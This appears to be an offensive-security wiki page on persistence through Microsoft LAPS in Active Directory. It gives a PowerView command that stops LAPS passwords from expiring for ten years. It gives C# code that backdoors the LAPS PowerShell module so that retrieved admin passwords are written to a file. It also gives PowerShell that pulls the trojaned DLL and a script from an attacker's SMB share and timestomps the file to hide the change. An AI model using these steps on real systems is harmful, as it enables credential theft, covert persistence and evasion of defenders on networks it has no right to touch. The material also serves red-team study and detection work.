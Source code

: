 # LAPS

## Theory

The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

This page is about persitence, you may have a look on [LAPS-based attacks](broken-reference) and [LAPS enumeration](../recon/objects-and-settings/laps.md).

## Practice

### Never Expire Password

LAPS may be configured to automatically update a computers password on a regular basis. If we have compromised a computer and elevated to SYSTEM we can update the value to never expire for 10 years as a means of persistence.

{% tabs %}
{% tab title="Windows" %}
With the following commands, using `Set-DomainObject` from [Powersploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1), we can update the `ms-Mcs-AdmPwdExpirationTime` value to never expire for 10 years.

```powershell
# PowerView
Set-DomainObject -Identity computer01 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose
Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object '[HostName$]'
```

{% hint style="info" %}
The password will still reset if an **admin** uses the **`Reset-AdmPwdPassword`** cmdlet; or if **Do not allow password expiration time longer than required by policy** is enabled in the LAPS GPO.
{% endhint %}
{% endtab %}
{% endtabs %}

### LAPS Backdoor

The original source code for LAPS can be found [here](https://github.com/GreyCorbel/admpwd). It's possible to put a backdoor in the code (inside the `Get-AdmPwdPassword` method in `Main/AdmPwd.PS/Main.cs` for example) that will somehow **exfiltrate new passwords or store them somewhere**.

{% tabs %}
{% tab title="Backdoor" %}
Add some evil code inside the [Get-AdmPwdPassword](https://github.com/GreyCorbel/admpwd/blob/1461172b2002ce37e31c221f6532a8ce7de1a295/Main/AdmPwd.PS/Main.cs#L140) function and Recompile [admpwd](https://github.com/GreyCorbel/admpwd):&#x20;

```csharp
//Example of backdoor in Get-AdmPwdPassword
PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);
var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);
WriteObject(pi);
```

After compiling it, upload the new  `AdmPwd.PS.dll` to the machine in `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (and change the modification time using [Set-MacAttribute.ps1](https://github.com/obscuresec/PowerShell/blob/master/Set-MacAttribute.ps1)).

```powershell
#Replace AdmPwd.PS.dll
cd C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS
copy \\<ATTACKING_IP\share\AdmPwd.PS.dll .

#Timestomp
Import-Module \\<ATTACKING_IP\share\Set-MacAttribute.ps1
Set-MacAttribute -FilePath C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\AdmPwd.PS.dll -OldFilePath C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\AdmPwd.PS.psd1
#Or manuall Timestomp
PowerShell.exe -com {$file=(gi C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\AdmPwd.PS.dll);$date='01/03/2006 12:12 pm';$file.LastWriteTime=$date;$file.LastAccessTime=$date;$file.CreationTime=$date}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/laps#backdoor" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps#backdoor" %}
